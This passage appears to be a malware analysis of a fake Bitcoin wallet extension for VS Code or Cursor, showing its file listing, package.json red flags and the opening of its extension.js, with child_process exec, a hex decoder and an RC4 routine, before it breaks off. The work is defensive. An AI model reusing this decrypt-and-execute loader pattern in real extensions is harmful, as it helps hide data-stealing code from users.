 ```
total 20
drwxrwxr-x 2 user user 4096 Aug 28 19:44 .
drwxrwxr-x 8 user user 4096 Aug 28 19:47 ..
-rw-rw-r-- 1 user user 2403 Aug 28 19:44 extension.js
-rw-r--r-- 1 user user  564 Aug 28 19:44 package.json
-rw-rw-r-- 1 user user 1493 Aug 28 19:44 .vsixmanifest
```

### Package Analysis

```bash
cat ./cursor/extensions/bitcoin.btcwalletassist-9.7.1/package.json
```

```json
{
	"name": "btcwalletassist",
	"displayName": "Bitcoin Wallet Assistant",
	"description": "Provides integration with Bitcoin cryptocurrency wallets.",
	"version": "9.7.1",
	"publisher": "bitcoin",
	"engines": {
		"vscode": "^1.90.0"
	},
	"categories": [
		"Other"
	],
	"activationEvents": [
		"onStartupFinished"
	],
	"main": "./extension.js",
	"contributes": {},
	"scripts": {
		"package": "vsce package"
	},
	"devDependencies": {
		"vsce": "^2.15.0"
	}
}
```

**Red flags in the package.json:**
- Generic publisher name "bitcoin"
- Activation on "onStartupFinished" (runs immediately when VS Code starts)

### Analyzing what the extension actually does:

```bash
cat ./cursor/extensions/bitcoin.btcwalletassist-9.7.1/extension.js
```

The code revealed some form of sophisticated malware operation, which was stealing data:

```javascript
const os = require("os");
const { exec } = require("child_process");

function hexToBuf(hex) {
  if (typeof hex !== "string" || hex.length % 2 !== 0 || /[^0-9a-fA-F]/.test(hex)) {
    throw new Error("Invalid hex input.");
  }
  return Buffer.from(hex, "hex");
}

function rc4(keyBuf, dataBuf) {
  // Full RC4 encryption implementation
  const S = new Array(256);
```